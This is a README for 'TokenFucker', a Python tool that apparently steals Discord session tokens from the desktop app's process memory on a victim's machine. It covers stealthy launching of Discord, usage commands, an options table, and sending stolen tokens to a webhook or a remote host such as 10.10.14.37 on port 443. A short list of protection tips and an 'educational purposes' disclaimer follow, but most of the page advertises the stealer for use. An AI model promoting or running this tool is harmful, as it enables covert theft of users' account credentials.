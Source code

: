 # TokenFucker
![TokenFucker](https://media.discordapp.net/attachments/843628315146321940/1049398161254391808/TokenFucker5.png?ex=6673d1f2&is=66728072&hm=5fe743f39794fa5b8175fc1874df5e7d66bbc9447486c2981eb14cd44e19c045&=&format=webp&quality=lossless)
<p align="center">
    <em>Cross plataform tool for Discord Token Stealing</em></p>
    <p align="center">
    <a href="https://github.com/ZaikoARG/PyDump/blob/main/LICENSE">
      <img src="https://img.shields.io/badge/license-Apache%202-blue.svg" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/badge/built%20with-Python%203.10-red.svg" />
    </a>
    <a href="">
    	<img src="https://img.shields.io/badge/platform-Win%2064%20%7C%20Linux%2032%20%7C%20Linux%2064-blue.svg" />
    </a>
  </p>



---

**Discord:** ZaikoARG#1187

---

TokenFucker is a cross-platform tool for Windows and Linux written in python, with the functionality to steal Discord user tokens in a few seconds. 
It is a tool that runs on the victim's machine, and it needs the victim to have the desktop application installed to work. It offers the ability to run even when the desktop application is closed.

Next, the most relevant functions of TokenFucker will be detailed:
* **Cross platform support:** TokenFucker works on both Windows and Linux (*tested only on its latest versions*)
* **Discord's Ghost Execution:** TokenFucker requires the Discord desktop app to be running to work.
But if it is not running, our tool can run it from behind, without anyone knowing.
* **Send Tokens via a Discord Webhook:** If you want, you can specify a Discord Webhook URL on the command line, so that the Token will be sent by that Webhook automatically when found.
* **Send Tokens to a Remote Host:** If you want, you can send the obtained Token to a Remote Host, specifying a host and a specific port (TCP) on the command line.

---

## Example of Usage

Steal User Discord Token

`python3 tokenfucker.py -r`

Steal a discord token by specifying the Discord desktop app binary

`python3 tokenfucker.py -df C:\Users\ZaikoARG\Documents\Discord\Discord.exe -r`  

Steal a discord token and send it to a webhook

`python3 tokenfucker.py -wh {URL} -r`

Steal a discord token and send it to a Remote Host

`python3 tokenfucker.py -rh 10.10.14.37,443 -r`

## Documentation
`python3 tokenfucker.py (options) -r`
|Option|Description|
|--|--|
|-df, --discord-file [PATH]|Enter discord binary file manually.|
|-wh, --webhook-url [URL]|Send Result to Webhook.|
|-rh, --remote-host [HOST,PORT]|Send to Remote Host (Introduce Host and Port separated by comma) Example: python tokenfucker.py -rh 127.0.0.1,443|
|--no-root|Disable root checking on Linux Systems (The steal may not work properly).|
|-r|Run the Token Stealing.|

## Functioning
TokenFucker exploits a Discord Desktop Application Memory leak vulnerability to obtain the user's Discord Token.

What TokenFucker does, going into a little more detail, is to look in the memory of the Discord desktop application process, for the authentication headers, which contain the token, sent in the communication between the application and the discord server.


What happens is that the Discord application, every time it has to communicate with its servers for different things, such as sending messages, downloading messages, updating chats and a long etc... makes a web request to these, and to verify which user these requests are being made, a Session Token is used, which is the famous Discord Token that we are looking for so much. This token is sent in a header called Authentication.
When the Discord application creates the request and sends it to the servers, certain data is reflected in the process memory, such as the Authentication header and the user's Token.

## Protection and Prevention
To protect yourself and prevent Discord token theft, I recommend the following:
* Do not save passwords in your browser and do not remember sessions in the browser.
* If possible, do not use the Discord Desktop application, use the Browser instead.
* Log out of your Discord account always, both in the Browser and in the Desktop Application.
* Do not download suspicious or unofficial things from the internet or open any link they send you, without trusting their origins, or verifying them.


## Disclaimer
**This tool was created only for educational purposes, its creators are not responsible for the misuse anyone can give it.**


## License
Copyright © 2022, ZaikoARG. All rights reserved.

Licensed under the Apache 2.0 License.
